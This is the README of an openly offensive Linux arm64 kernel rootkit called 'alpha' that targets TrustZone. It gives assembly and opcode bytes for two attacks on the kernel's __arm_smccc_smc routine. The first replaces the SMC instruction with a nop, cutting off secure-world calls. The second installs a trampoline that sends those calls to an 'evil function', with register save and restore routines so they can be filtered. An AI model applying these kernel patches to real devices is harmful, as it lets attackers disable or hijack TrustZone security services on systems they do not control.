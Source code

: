 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook SMC Call. It has been tested on a Linux kernel 4.19 with OP-TEE 3.5.0 but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook SMC Call

The purpose of this attack is to jump from __arm_smccc_smc to our evil function to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the evil function have to manage the SMC call. We have to re-write the routine that has been erased and put it in our hook function.   
In order to have the ability to do anything inside the evil function and continue to use SMC call, we have to save registers. We add a pre-routine and a post-routine.   
The pre-routine is as follow:
```
   stp   x0, x1, [sp, #-16]!
   stp   x2, x3, [sp, #-16]!
   stp   x4, x5, [sp, #-16]!
   stp   x6, x7, [sp, #-16]!
   stp   x18, x19, [sp, #-16]!
   stp   x20, x21, [sp, #-16]!
   stp   x22, x23, [sp, #-16]!
   stp   x24, x25, [sp, #-16]!
   stp   x26, x27, [sp, #-16]!
   stp   x28, x29, [sp, #-16]!
   str   x30, [sp, #-8]!
```   
And the post-routine:
```
   ldr   x30, [sp], #8
   ldp   x28, x29, [sp], #16
   ldp   x26, x27, [sp], #16
   ldp   x24, x25, [sp], #16
   ldp   x22, x23, [sp], #16
   ldp   x20, x21, [sp], #16
   ldp   x18, x19, [sp], #16
   ldp   x6, x7, [sp], #16
   ldp   x4, x5, [sp], #16
   ldp   x2, x3, [sp], #16
   ldp   x0, x1, [sp], #16
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
